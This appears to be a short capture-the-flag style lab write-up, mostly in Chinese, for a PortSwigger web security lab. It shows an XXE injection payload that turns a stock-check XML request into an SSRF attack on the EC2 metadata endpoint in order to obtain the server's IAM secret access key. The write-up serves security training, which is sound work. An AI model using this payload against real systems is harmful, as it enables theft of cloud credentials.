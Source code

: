 To solve the lab, exploit the XXE vulnerability to perform an [SSRF attack](https://portswigger.net/web-security/ssrf) that obtains the server's IAM secret access key from the EC2 metadata endpoint.

```
信息：

本实验有一个"Check stock"特性，它解析XML输入并在响应中返回任何意外值

实验室服务器在默认URL（www.example.com）上运行（模拟的）EC2元数据端点http://169.254.169.254/。此终结点可用于检索有关实例的数据，其中一些数据可能是敏感的

解决实验：利用XXE漏洞执行SSRF攻击，从EC2元数据端点获取服务器的IAM秘密访问密钥
```

### 解答

```
XXE注入
在XML声明和stockCheck元素之间插入以下外部实体定义：

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>

将 productId 号替换为对外部实体的引用:

&xxe;
```

<img src=".\图片\Snipaste_2023-07-31_10-37-20.png" alt="Snipaste_2023-07-31_10-37-20" style="zoom:80%;" />
